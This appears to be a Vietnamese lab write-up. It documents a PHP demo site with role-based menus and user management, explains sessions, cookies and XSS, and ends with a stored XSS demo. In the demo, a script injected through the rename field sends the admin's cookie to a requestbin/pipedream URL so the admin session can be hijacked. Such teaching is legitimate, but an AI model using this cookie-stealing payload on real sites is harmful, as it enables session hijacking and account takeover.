# Sơ bộ về web

---
## 1. Phân chia theo cấp độ của account 

### 1.1 Account của admin (admin04:admin07)
## Giao diện của admin 

#### Create new menu có thể tạo thêm menu mới ở trên thanh menu
- Step 1: Click "Create new menu" và nhập tên của menu

        ```
        <form action="index.php" method="POST">
            <p>Enter name of menu</p>
            <input type="text" name="name_create">
            <input type="submit" name="submit" value="Create">
        </form>
        ```

    * Với đoạn mã html form trên, ta có thể GET thông tin từ ô input với biến name="name_create" bằng đoạn php sau:

        ```
        if(!empty($_POST["submit"])){
            $name_create = $_POST["name_create"];
        }
        ```

    * Lệnh empty($variable) sử dụng để kiểm tra xem biến $variable có rỗng hay không, mọi giá trị `"", 0, "0", NULL` của biến $variable đều bị xem là rỗng và trả về giá trị `true`.
    * Operater `!` thể hiện sự phủ định.
    * `$_POST["submit"]` dùng để lấy dữ liệu đầu vào của form khi forrm POST lên sever.
    * `!empty($_POST["submit"])` dùng để kiểm tra xem admin có nhấn submit để gửi thông tin lên server không.
- Step 2: Click "Create" và nhìn kết quả trên thanh menu
    * Nếu user click "Create" thì `!empty($_POST["submit"])` sẽ nhận diện được admin submit form lên server và sẽ trả giá trị `true`. Sau đó ta gán dữ liệu nhập vào của admin `$_POST["name_create"]` vào biến `$name_create`.
    *Bây giờ ta cần 1 function để lưu tên admin tạo vào database và hiện ra ngoài menu.
    * Function sẽ sử dụng query sau để insert tên mà admin đã tạo lên database

        ```
        function create_menu(){
            ...
            $sql = $pdo->prepare('INSERT INTO menu (NAME_MENU) VALUES (?)');
            $sql->execute(array("$name"));
            ...
        }
        ```

    * Ở đây sử dụng module PDO để điều khiển mysql, tham khảo PDO ở đây:
    [PDO](https://www.php.net/manual/en/book.pdo.php)




#### Delete menu có thể xoá menu trên thanh menu
- Step 1: Click "Delete menu" và nhập tên của menu cần xoá
    * Tương tự như phần submit form và lấy giá trị mà form POST lên server của phần `Create menu`. Bây giờ ta chỉ cần quan tới function dùng để xoá menu.

        ```
        public function delete_menu($name_menu)
        {
            ...
            $sql = $pdo->prepare('DELETE FROM menu WHERE NAME_MENU = ?');
            $sql->execute(array("$name_menu"));
            ...
        }
        ```

    * Function trên với biến đàu vào $name_menu để xác định vị trí cũng như tên cần xoá của menu.

- Step 2: Click "Delete" và nhìn kết quả trên thanh menu


#### Rename menu có thể đổi tên menu
- Step 1: Click "Rename menu" và nhập tên của menu cần đổi
    * Ở đây ta cần 1 function có thể thực hiện chức năng `UPDATE` lên mysql để sử đổi lại tên của menu.

        ```
        public function rename($name_old, $name_new)
        {
            ...
            $sql = $pdo->prepare('UPDATE menu SET NAME_MENU = ? WHERE NAME_MENU = ?');
            $sql->execute(array("$name_new", "$name_old"));
            ...
        }
        ```

    * Với biến `$name_old` và `$name_new` ta có thể tìm ra vị trí của tên cần đổi nhờ vào `$name_old` sau đó `UPDATE` nó bằng `$name_new`.

- Step 2: Nhập tên của menu mới
- Step 3: Click "Rename" và nhìn kết quả trên thanh menu


#### Show user dùng để show toàn bộ user lưu trong database
- Ở đây ta dùng function sau để show ra toàn bộ user có trong database

        ```
        public function show_user()
        {
            ...
            $sql = $pdo->prepare('SELECT * FROM user');
            $sql->execute();
            ...
        }
        ```


- Level 3 của admin có toàn quyền chỉnh sửa thêm xoá menu và thêm xoá xem danh sách user
- Level 2 của manager có quyền chỉnh sửa thêm xoá menu và xem danh sách user 
- Level 1 của user chỉ có quyền xem thông tin và đổi tên của mình
    * Ở đây biến sesion sẽ được khởi với 2 giá trị `userid` và `level` để xác nhận quyền cho mỗi account. Trong đó, 2 biến `$userid` và `$level` sẽ được trích ra từ file `userid_admin_manager`.

        ```
        session_start();
        session["user"]["userid"] = "$userid";
        session["user"]["level"] = $level;
        ```

### Add user dùng thêm 1 user mới
- Step 1: Nhập user và pass cho user 
    * Ở đây ta dùng function sau để thêm user mới

        ```
        public function add_user($user, $pass)
        {
            ...
            $sql = $pdo->prepare('INSERT INTO user(USER, PASS, USERID, LEVEL) VALUES(?, ?, ?, ?)');
            $sql->execute(array("$user", "$pass", "$userid", "1"));
            ...
        }
        ```

    * Với `$user` và `$pass` được lấy từ form thông qua nhập liệu, biến `$level` sẽ được set mặc định là 1. Biến `$userid` sẽ được random từ 1 chuỗi hexa.

- Step 2: Click "accept" và click vào "Show user" để xem kết quả
 


#### Delete user dùng để xoá 1 user nào đó
- Step 1: Nhập tên user cần xoá
    * Để xoá được 1 user, ta thiết lập function sau

        ```
        public function delete_user($user)
        {
            ...
            $sql = $pdo->prepare('DELETE FROM user WHERE USER = ?');
            $sql->execute(array("$user"));
            ...
        }
        ```

    * Biến `$user` sẽ được lấy từ form dữ liệu và thực hiện query trên để thực hiện xoá $user ra khỏi database. 

- Step 2: Clcik "Delete user" để xoá user và click "Show user để xem kết quả"



## Giao diện của manager (manager04:manager07)

    - Quyền của manager giống với quyền của admin chỉ khác không có thêm và xoá user

## Giao diện của user (user01:user01)

    - User chỉ có quyền xem thông tin và sửa tên của chính mình

---

# Sơ bộ về lý thuyết của session, cookie, xss

---

## Session

* Session dùng để lưu trữ phiên đăng nhập của user. Khi client(user, trình duyệt) vào trang web sẽ gặp session_start() ở trong sever của web. Sesion_start() này sẽ tạo ra 1 biến PHPSESSID cho riêng client đó. Phiên đăng nhập session của user sẽ được xoá khi user đóng tab lại hoặc logout ra khỏi trang web tuỳ theo thiết kế của dev.

## Cookie

* Cookie dùng để lưu trữ các thao tác của client với trang web và được lưu trên máy tính của client. Khi client quay lại với trang web thì sever sẽ tìm file cookie trên máy tính của client để thực hiện nhận dạng.

* Không như session, cookie không bị mất đi khi đóng tab. Cookie tồn tại trên thời thời gian mà dev cài đặt sẵn.

## Xss

* Xss (Cross Site Scripting) là lỗ hổng bảo mật cho phép attacked khai thác dựa trên việc nhúng mã độc vào đầu vào của trang web. Cụ thể trường hợp thường thấy là nhúng mã javascript vào trang web.
* 1 số lỗi thường thấy trong xss:
    - Reflected XSS
    - Stored XSS
    - DOM based XSS

---

## Demo tấn công xss

* Login vào tài khoản của 1 user (user01:user01)


* Chuẩn bị 1 host để nhận lấy PHPSESSID của admin hoặc manager. Cụ thể ở đây là "requestbin.com"
    - "requestbin.com" là nơi tạo ra các "thùng" để chứa các yêu cầu từ bên ngoài vào, cụ thể là các yêu cầu http. Ở đây dùng "requestbin.com" với mục đích làm trang nguồn hứng các yêu cầu http có chứa các thông tin nhạy cảm của admin mà ta Reflected từ trang web đích (victim) với các đoạn mã độc đã được tiêm vào từ đầu vào của trang web đích(victim) 

* Chuẩn bị 1 mã độc javascript để nhúng vào trang web
    - Script độc hại được tiêm vào mã nguồn khi đầu vào của trang web lỏng lẻo. Cụ thể ở đây là khi user nhập thông tin từ ô input, sever sẽ lấy thẳng đoạn content mà user nhập cho vào database.
    ```
    if(!empty($_POST["submit"])) {
        $name = $_POST["name"]);
    }
    ```

    - Ở đây sẽ không có chuyện gì xảy ra khi user nhập $name bình thường. Tuy nhiên nếu user nhập là 1 đoạn javascript. Khi đó $name sẽ được thực thi như 1 đoạn mã javascript thông thường. Do vậy, nếu attacked dùng đoạn mã sau thì sẽ lấy cookie của admin thông qua xss.

```
<script type="text/javascript">
     window.location.assign('https://enyuabviyn2ns.x.pipedream.net?key='+document.cookie);
</script>
```

- Lệnh window.location.assign($url) sẽ reload trang web tới đích $url được chỉ định.
- Lệnh document.cookie cho phép lấy ra cookie của account hiện tại. Ở đây ta sẽ dùng lệnh này để lấy ra PHPSESSID của admin dựa trên kỹ thuật xss.
- Kết hợp "requestbin.com" với các câu lệnh trên ta sẽ Reflected từ trang web đích(victim) với cookie của admin khi admin mở lên trang web có chứa đoạn mã độc trên.

* Quay lại phần đổi tên, dán đoạn mã độc trên vào ô "Enter new username" và click "Rename user"
    - Ở đây ô input "Enter new username" là 1 đầu vào của trang web. Khi đầu vào không được lọc kỹ càng thì sẽ bị dính lỗi xss. Bây giờ ta sẽ thử tiêm đoạn mã độc javascript ở trên vào đây.

* Quay lại trang "requestbin.com" để chờ admin hoặc manager login vô trang web. Ta đã thành công trong việc tiêm mã độc javascript vào thông tin cá nhân của mình. Bây giờ ta chỉ cần đợi admin hoặc manager kiểm tra tài khoản của user.
* (Giả định với tư cách là admin của trang web) Tiến hành đổi trình duyệt và login vào trang web với tài khoản của admin (admin04:admin07)


* (Giả định với tư cách là admin của trang web) Click vào "Show user" để xem danh sách user và sẽ bị Reflected tới trang "requestbin.com" khiến admin bị đánh cắp PHPSESSID

* Quay lại trang "requestbin.com" để lấy PHPSESSID của admin, dùng bất cứ trình đổi cookie nào đó để dán PHPSESSID vô

